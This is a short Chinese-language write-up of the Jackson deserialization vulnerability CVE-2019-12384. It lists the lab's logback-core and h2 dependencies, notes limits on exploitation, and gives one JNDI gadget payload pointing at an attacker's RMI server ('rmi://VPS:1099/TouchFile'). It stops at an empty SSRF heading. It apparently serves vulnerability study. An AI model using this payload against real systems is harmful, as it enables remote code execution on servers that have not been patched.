

# CVE-2019-12384 Jackson 2019/07/22

## 概述

这个漏洞的利用有两个特别鸡肋的点：

第一点， 它需要依赖两个jar才能造成rce漏洞；除去jackson自身的jar包以外还需要logback-core和h2;相同的套路在fastjson也是可以造成RCE的,同样也依赖jar包

靶场使用的 logback-core和h2：

		<!--https://mvnrepository.com/artifact/ch.qos.logback/logback-core -->
		<dependency>
		    <groupId>ch.qos.logback</groupId>
		    <artifactId>logback-core</artifactId>
		    <version>1.3.0-alpha4</version>
		</dependency>
		
		<!--https://mvnrepository.com/artifact/com.h2database/h2 -->
		<dependency>
		    <groupId>com.h2database</groupId>
		    <artifactId>h2</artifactId>
		    <version>1.4.199</version>
		    <scope>test</scope>
		</dependency>
		<dependency>
		    <groupId>com.h2database</groupId>
		    <artifactId>h2</artifactId>
		    <version>1.4.199</version>
		    <scope>compile</scope>
		</dependency> 

第二点， 注意这个漏洞的触发，是在序列化恶意的对象的时候触发的，而jackjson大部分情况在web中都是用于处理去反序列化前端传入的json数据的。

## 利用

#### 利用点1

	ch.qos.logback.core.db.JNDIConnectionSource

jndi绕过链，比较取巧，跟之前未修复黑名单有关。  这个CVE 主要用jdbc的 SSRF 和 RCE 调用链 

//jndi绕过链

 	payload = "[\"ch.qos.logback.core.db.JNDIConnectionSource\", {\"jndiLocation\":\"rmi://VPS:1099/TouchFile\"}]";

 

#### 利用点2

SSRF